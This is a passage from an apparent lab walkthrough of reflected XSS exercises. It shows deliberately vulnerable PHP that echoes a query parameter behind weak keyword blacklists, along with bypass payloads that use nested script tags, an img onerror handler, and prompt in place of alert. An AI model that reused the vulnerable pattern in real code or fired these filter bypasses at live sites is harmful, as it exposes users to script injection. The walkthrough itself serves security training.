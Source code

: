 The message changed to <code>Hello place<>holder</code> . This is great, it means we can have nested tags that will be interpreted! I built the payload to:


``` plain
 <scr<script>ipt>alert(1)</scr</script>ipt>
```


**Example 4**

Source:


``` php
<?php require_once '../header.php';

if (preg_match('/script/i', $_GET["name"])) {
  die("error");
}
?>

Hello <?php  echo $_GET["name"]; ?>
<?php require_once '../footer.php'; ?>
```

This time, the script throws an error if it sees anything resembling script tags. Luckily, we can get an XSS payload to execute in different ways. For this I used:

``` plain
<img src='nope' onerror="alert('Got ya')" />
```


**Example 5**

Source code:


``` php
<?php require_once '../header.php';

if (preg_match('/alert/i', $_GET["name"])) {
  die("error");
}
?>

Hello <?php  echo $_GET["name"]; ?>
<?php require_once '../footer.php'; ?>
```


All right, it looks like script tags aren't blacklisted anymore, but this time the alert word is. I just substituted the alert for prompt:


``` plain
<script>prompt('Enter pwn code')</script>
```


**Example 6**
